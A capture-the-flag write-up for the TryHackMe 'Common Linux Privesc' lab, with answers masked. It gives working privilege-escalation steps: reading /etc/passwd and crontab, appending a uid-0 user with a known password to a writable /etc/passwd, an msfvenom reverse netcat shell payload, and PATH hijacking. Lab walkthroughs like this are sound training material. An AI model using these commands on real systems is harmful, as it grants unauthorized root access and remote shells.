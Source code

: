 <!-- TOC -->

- [Common Linux Privesc](#common-linux-privesc)
    - [Enumeration](#enumeration)
    - [Abusing SUID/GUID Files](#abusing-suidguid-files)
    - [Exploiting Writeable /etc/passwd](#exploiting-writeable-etcpasswd)
    - [Escaping Vi Editor](#escaping-vi-editor)
    - [Exploiting Crontab](#exploiting-crontab)
    - [Exploiting PATH Variable](#exploiting-path-variable)

<!-- /TOC -->

# Common Linux Privesc

[Common Linux Privesc Room](https://tryhackme.com/room/commonlinuxprivesc)

A room explaining common Linux privilege escalation

| Title | IP Address |
| :---- | :---- |
| poloprivescfinal | `1*.**.***.***` |

## Enumeration

```bash
hostname
```

> `p******`

```bash
cat /etc/passwd | grep user[0-9] | wc -l
```

> `*`

```bash
cat /etc/shells
```

> `*`

```bash
cat /etc/crontab
```

> `a*********.**`

```bash
find / -type f -perm -g=w 2>/dev/null | grep -E '^/.{3}/.{6}$'
```

> `/***/******`

## Abusing SUID/GUID Files

```bash
readlink -f shell 
```

> `/****/*****/*****`

## Exploiting Writeable /etc/passwd

```bash
openssl passwd -1 -salt new
```

> `$1$new$p****EKU*H**H*R**N**S*`

```bash
echo 'new:$1$new$p****EKU*H**H*R**N**S*:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Using `new:123`

```bash
su new
```

##  Escaping Vi Editor

```bash
sudo -l
```

> `(root) N*******: /usr/bin/vi`

## Exploiting Crontab

LHOST:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```

```bash
find / -type f -name autoscript.sh 2>/dev/null
```

> `/****/*****/D******`

## Exploiting PATH Variable

```bash
cd /tmp
echo "/***/****" > ls
c**** +x ls
cd
./script
```
